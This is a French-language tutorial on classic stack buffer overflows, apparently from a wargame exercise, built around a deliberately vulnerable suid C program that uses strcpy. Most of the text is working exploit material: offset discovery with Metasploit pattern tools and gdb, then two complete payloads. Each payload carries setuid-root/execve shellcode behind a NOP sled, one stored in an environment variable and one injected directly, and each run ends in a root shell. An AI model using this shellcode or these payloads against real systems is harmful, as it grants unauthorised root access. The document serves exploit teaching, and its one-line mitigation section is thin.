 # Le Stack Overflow

## I. Introduction
Le Stack Overflow consiste à utiliser une faille applicative pour écrire en mémoire et détourner le flow du programme. Nous allons par exemple tenter ici de faire executer un shell root à un programme suid lambda.

## II. Pré-requis
* Un programme suid
* Un code permettant le buffer overflow

Soit le programme `vuln` suivant :
```{r, engine='C'}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void copy(char *arg)
{
	char msg[256];
	strcpy(msg,arg);
    printf("Votre argument est : %s\n",msg);
}

int main(int argc, char **argv)
{
	copy(argv[1]);
	return 0;
}
```

## III. La faille
Ce programme permet le Stack Overflow puisque l'input utilisateur n'est controlé à aucun moment et que `strcpy()` se contente de copier bêtement l'input dans la variable `msg`. Ainsi on peut écrire dans la mémoire.  
L'idée va être d'écraser l'adresse de retour du programme vulnérable par l'adresse de notre shellcode.

## IV. Exploitation

### On détermine l'offset de l'adresse de retour
Pour cela, on génère on suite de caractère unique sur kali :
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
On execute notre programme vulnérable sous le debugger `gdb`
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9'")
Votre argument est : Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
Cannot access memory at address 0x6a413969
0x6a413969 in ?? ()
```
Kali va maintenant nous dire à l'octet près là où nous pouvons réécrire l'adresse de retour
```{r, engine='bash'}
root@kali:~# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb $(ruby -e 'print "\x6a\x41\x39\x69".reverse')
[*] Exact match at offset 268
```
Sans cette technique, il aurait fallu procéder par dicotomie jusqu'à tomber sur le bon offset.

### Détournement du programme
Plusieurs solutions existent ici, nous verrons les deux plus simples : exploitation à l'aide de l'environnement, et exploitation directe (ce sont des termes maison hein :p)

#### 1. A l'aide de l'environnement
Nous commençons par stocké notre shellcode précédé d'une floppé de NOP afin de se laisser une marge :

```{r, engine='bash'}
aas@ubuntu:~$ export SC=$(python -c "print '\x90'*100+'\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80'")
```

Nous récupérons l'adresse de notre variable SC grâce au programme suivant :

```{r, engine='bash'}
#include <stdio.h>
aas@ubuntu:~$ cat get_env
void main()
{
        printf("ad: 0x%lx\n", getenv("SC"));
}
aas@ubuntu:~$ ./get_env
ad: 0xbffffed3
```
Nous devons donc écraser l'adresse de retour avec l'adresse de notre variable SC : 0xbffffed3
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*268 + '\xd3\xfe\xff\xbf'")
# whoami
root
```

#### 2. Par exploitation directe
Lorsque le buffer est assez grand, nous pouvons tout faire rentrer et l'utilisation de l'environnement n'est pas nécéssaire.  
Le principe est toujours d'écraser l'adresse de retour pour la faire pointer dans nos NOP. Il faut donc récupérer une adresse pointant sur nos NOP.
```{r, engine='bash'}
aas@ubuntu:~$ gdb -q ./vuln
Reading symbols from /wargame/medium/level1/level...(no debugging symbols found)...done.
gdb$ r $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + 'AAAA'")
0xbffffec0:	0x2d465455	0x494c0038	0x3d53454e	0x53003133
0xbffffed0:	0x90903d43	0x90909090	0x90909090	0x90909090
0xbffffee0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffef0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff00:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff10:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff20:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffff30:	0x90909090	0x316a9090	0x80cd9958	0xc189c389
0xbfffff40:	0xcd58466a	0x520bb080	0x732f6e68	0x2f2f6868
0xbfffff50:	0xe3896962	0x80cdd189	0x53494800	0x4e4f4354
0xbfffff60:	0x4c4f5254	0x6e67693d	0x6265726f	0x0068746f
0xbfffff70:	0x454d4f48	0x61772f3d	0x6d616772	0x656d2f65
```
On voit nos NOP (\x90). Il suffit de choisir une adresse d'un NOP au milieu de la floppé pour se laisser de la marge. Disons l'adresse `0xbfffff10`. Il nous suffit maintenant de remplacer les AAAA par cette adresse et le tour est joué.
```{r, engine='bash'}
aas@ubuntu:~$ ./vuln $(python -c "print 'A'*184 + '\x90'*50 + '\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80' + '\x10\xff\xff\xbf'")
# whoami
root
```

## V. Sécurisation
Aujourd'hui, les kernels sont patchés contre ce problème. L'ASLR palie à ce problème.
